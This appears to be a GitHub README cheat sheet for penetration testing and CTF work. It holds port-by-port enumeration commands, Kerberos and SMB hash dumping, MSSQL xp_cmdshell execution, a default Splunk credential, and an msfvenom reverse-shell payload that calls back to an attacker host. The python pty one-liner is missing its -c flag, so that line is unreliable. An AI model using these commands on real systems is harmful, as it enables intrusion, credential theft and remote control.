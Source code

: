 # Recon & Enum
## The basic
Data and information gathering.

## [nmap](https://nmap.org/book/man.html)
1. Host scan
```
nmap -p 1-65535 -v -A -Pn [IP_ADDR]
nmap -sC -sV -A -p- -v [IP_ADDR]
```

## Commonly seen port (Default port num)
### FTP (21)
```
ftp [IP_ADDR]
anonymous sign in
put [FILE]    # Try for file upload
```

### SSH (22)
```
ssh [USERNAME]@[IP_ADDR] [PORT]
ssh [USERNAME]@[IP_ADDR] -i id_rsa    # chmod 600 id_rsa
ssh -i id_rsa [USERNAME]@[IP_ADDR] -L [LOCAL_PORT]:localhost:[REMOTE_PORT]   # ssh port forwarding  
scp -P [PORT] [FILE_TO_TRANSFER] [USERNAME]@[IP_ADDR]:[DESTINATION_FILE]    # copy file from local to remote through scp

ssh2john.py id_rsa > hash   # encrypted id_rsa
john hash --wordlist=/opt/wordlists/rockyou.txt
```

### DNS (53)
```
dig axfr [DOMAIN].[TLD] @[IP_ADDR]
dig @[IP_ADDR] -x [IP_ADDR]
```

### HTTP (80) / HTTPS (443)
```
gobuster dir -u [URL] -w [WORDLIST]   # Files enumeration, note: windows web server are case insensitive
ffuf -u http://[IP_ADDR]/ -H "Host: FUZZ.[DOMAIN]" -w /seclists/Discovery/DNS/shubs-subdomains.txt -t 100 -fl 10
nikto -h [URL]
davtest -url [URL]    # PUT method test
cadaver [IP_ADDR]
cewl [URL]    # get possible password from site
```

### Kerberos (88)
```
kerbrute userenum --dc [DOMAIN] -d [DOMAIN] [WORDLIST]    # enum user
GetNPUsers.py [DOMAIN]/[USERNAME] -request -no-pass -dc-ip [IP_ADDR]    # get user that does not require kerberos preauth
secretsdump.py -dc-ip [IP_ADDR] [DOMAIN].local/[USERNAME]:[PASSWORD]@[IP_ADDR]    # retrieve all of the password hashes
```
Ref: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

### Network File System (111 & 2049)
```
showmount -e [IP_ADDR]
mount -t nfs [IP_ADDR]:/[Remote_Folder] [Local_Folder]/
```

### SMB (445)
```
smbclient -L [IP_ADDR]    # To list out available directories
smbclient \\\\[IP_ADDR]\\[DIRECTORY]    # To show directory content
smbclient \\\\[IP_ADDR]\\[DIRECTORY] -D [DOMAIN] -U [USERNAME]    # Sign in with username
smbmap -H [IP_ADDR] -u [USERNAME]
lookupsid.py anonymous@$[IP_ADDR]   # with IPC$ readonly permission
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADDR]   # with ADMIN$ write permission
crackmapexec smb [IP_ADDR] --shares
```
MS17-010 EternalBlue exploitation for SMBv1 in Windows Vista, 7, 8.1, 10; Server 2008, 2012, 2016
SMB share folder mounting
```
mkdir /mnt/[FOLDER_NAME]
mount -t cifs -o username=[USERNAME] //[IP_ADDR]/[SHARED_PATH] /mnt/[FOLDER_NAME]
```
Mounting VHD file
Ref: https://www.how2shout.com/linux/mount-virtual-hard-disk-vhd-file-ubuntu-linux/

### Microsoft SQL (1433)
```
impacket-mssqlclient [DOMAIN]/[USERNAME]@[IP_ADDR] -windows-auth    # Connect to mssql server
SELECT IS_SRVROLEMEMBER('sysadmin')   # Check for sysadmin privileage; return 1 for true, 0 for false
SELECT name FROM master.dbo.sysdatabases    # Retrieve list of databases
EXEC master..xp_cmdshell '[CMD]'    # Execute remote command with sysadmin privileage
```

### MySQL (3306)
```
mysql -u [USERNAME] -h [IP_ADDR] -p   # Connect to mysql server
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'SHOW DATABASES;'
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'USE [DATABASE]; SHOW TABLES;'
```

### RDP (3389)
```
rdesktop -u [USERNAME] [IP_ADDR]:[PORT]
```

### Redis (6379)
```
redis-cli -h [IP]   # without auth
redis-cli -h [IP] -a [PASSWORD]   # auth required
----------
info
keys *
type [KEYS]
get [KEYS]    # strings
lrange [KEYS] [1] [64]    # list
----------
```

### Apache Tomcat (8080)
```
Default page:
/admin
/manager
/manager/html
```

### SPLUNK (8089)
```
Default Credential 
admin:changeme
```

# Working with MSFVENOM and MSFCONSOLE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[MY_IP_ADDR] LPORT=4444 -f [asp/aspx/php/filetype] > [OUTPUT_FILE.asp/aspx/php/filetype]

----------------------------------
msfconsole:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # payload match with the one used in venom
run     # start listener

----------------------------------
meterpreter session:
getuid     # get current user session
sysinfo    # get information of the remote system
background / ctrl+z
use post/multi/recon/local_exploit_suggester    # set session number
```
## Cisco router password cracker
https://github.com/axcheron/cisco_pwdecrypt  
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

## Netcat
Listener (on attacker machine)
```
nc -lnvp [PORT]
l = listen; n = ip addresses only, no DNS lookup; v = verbose; p = local port
```

## John
```
john [hash_file] --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
```

## Hashcat
```
hashcat -a 3 -m 0 [HASH_FILE] /usr/share/wordlists/rockyou.txt    # -a 3 bruteforce attack; -m 0 MD5 mode
```
Ref: https://hashcat.net/wiki/doku.php?id=example_hashes

## Python
```
python3 'import pty;pty.spawn("/bin/bash");'
```

## Port Knocking
```
knock [IP_ADDR] [PORT1] [PORT2] [PORT3] -d [DELAY MILLISEC]
```
